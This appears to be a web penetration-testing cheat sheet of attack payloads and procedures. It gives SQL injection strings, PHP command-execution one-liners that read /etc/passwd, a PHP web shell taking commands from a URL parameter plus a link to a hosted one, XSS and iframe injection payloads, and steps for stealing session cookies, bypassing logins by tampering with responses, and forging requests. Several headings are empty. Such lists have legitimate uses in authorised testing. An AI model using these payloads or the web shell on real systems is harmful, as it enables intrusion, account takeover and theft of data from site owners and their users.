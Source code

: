 ## Time Based Blind SQL Injection:
```
'(select * from (select(sleep(10)))a)
,(select*from(select(sleep(15)))a)
';WAITFOR DELAY '0:0:30'--
```
## Error Based SQL Injection:

## Boolean Based Blind SQL Injection:
```
'2 OR 1=1
'2 AND 1=1
```
## Local File Inclusion (LFI):
```


```
## Remote Code Execution (RCE):
```
<?php system("cat /etc/passwd");?>
<?php system("id");?>
<?php echo phpinfo(); ?>
<?php include 'C:\Windows\System32\drivers\etc\hosts';?>
```
## Malicious File Upload (Shell Execution):
```
<?php system($_GET['cmd']); ?>

https://github.com/hackerhijeck/For_Me/blob/main/Web_Shell.php
```
## Application is Vulnerable to Reverse Web shell (Shell Execution):
```

```
## File Upload Bypass:
```
https://book.hacktricks.xyz/pentesting-web/file-upload
```
## Session Hijacking:
```
Step1: Using xss hunter payload, execute the payload in logged in user account.
Step2: After got the cookies in the XSS Hunter.
Step3: Copy the cookies and before login paste and change into the cookies and refresh it.
```
## Session Fixation in The Application:
```
Step1: Before login, Check the cookie or session token.
Step2: Then After login, Check the cookie or session token, If same token or cookies is there.
```
## URL Redirection in the application:
##### Endpoint Pattern:
```
/?url=
/?redirect_url:
/?checkout_url=
/?login_url=
/?redirect_uri=
```
## Reflected Cross Site Scripting Attack:
```
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg/onload=alert(1)>
javascript:alert(1)//
"onmouseover=alert(1);
<x onclick=alert(1)>click!
```
## HTML Injection
```
<h1>HTML_Injection</h1>
<marquee>HTML_Injection</marquee>
```
## Link Injection:
```
<a href="https://www.intelliroot.com">ClickMe</a>
```
## Iframe Injection:
```
<iframe src="https://www.intelliroot.com"></iframe>
```
## Blind Cross Site Scripting Attack:
```
XSS Hunter payload
```
## Admin/User Login Authentication Bypass Using Success Response:
#### Process 1:
```
Step1: Login panel capture the request and Do intercept and click to respnse to this request and then forward the request
Step2: If Response code 404 Forbidon then change to 200 OK. and then forward the request.
```
#### Process 2:
```
Step1: In login panel first logged in a valid user and capture the request and "Do intercept" and click to "response to 
        this request" and then forward the request.
Step2: Copy the 200 OK reponse data and save it any txt format.
Step3: Now try to unathorized user, in login panel capture the request and "Do intercept" and click to "response to 
        this request" and then forward the request.
Step4: In Response data, paste the data which copied from a valid user, and then forward the request.
```
## Cross Site Request Forgery (CSRF):
```
Step1: Capture any POST data and click generate CSRF poc, save it into the html file.
Step2: Change the POST data to anything you want.
Step3: Now open into the browser and click submit.
```
### Test CGI script exposes environment variables
### Account Takeover through forget password
### Improper File Content Validation in the Application
### No Session Termination After Password Change:
```
Step1: Login as a user, After logged in capture a request of any functionality and get into the Repeater and send to Response.
Step2: Wait minimum 40,50 minutes, Do not loggout the account.
Step3: After complete the time, then again click send to the reponse in the Burpsuite.
Step4: If its working properly, then it No Session Termination Vulnerability.
```
### Password History Check is not Implemented
### Concurrent Logins with the Same Username in admin/user account
### Trace method Enabled
### Full path disclosure
### Improper Input Validation in the Application:
```
<script>alert(1)</script>
<h1>Test</h1>
```
### Client side validation bypass of email and phone number verification
### Application is Vulnerable to Clickjacking Attacks
### OpenSSL Version disclose in the application
### Last Login Time Not Implemented in the Application
